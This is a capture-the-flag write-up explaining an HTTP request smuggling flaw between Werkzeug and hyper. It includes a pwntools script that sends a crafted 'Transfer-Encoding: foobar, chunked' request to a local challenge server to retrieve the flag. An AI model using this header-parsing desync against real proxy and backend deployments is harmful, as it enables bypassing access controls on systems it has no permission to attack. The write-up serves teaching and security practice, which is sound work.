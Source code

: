 # proxy confusion revenge

## Description
I hope my flask server protect my flag this time!

## Writeup

Werkzeug only processes the Transfer-Encoding header if it is exactly "chunked". Otherwise it's ignored and Content-Length header is used (default 0)
https://github.com/pallets/werkzeug/blob/5add63c955131fd73531d7369f16b2f1b4e342d4/src/werkzeug/sansio/utils.py#L140

On the other hand, hyper accepts comma-seperated values, as long as the last value is "chunked". (This is the expected behavior in RFC)
https://github.com/hyperium/hyper/blob/c68d42444ea6b930cb75907336150d2baf58a7e8/src/headers.rs#L130

You can abuse this to make the body only valid for deno.
```python
from pwn import *

io = remote("localhost", 4000)
io.send(b"""
POST /flag HTTP/1.1
Transfer-Encoding: foobar, chunked

15
please give me flag

0
        """.strip().replace(b"\n", b"\r\n") + b"\r\n\r\n")

r = io.recvall(timeout=1)
print(r.decode())
```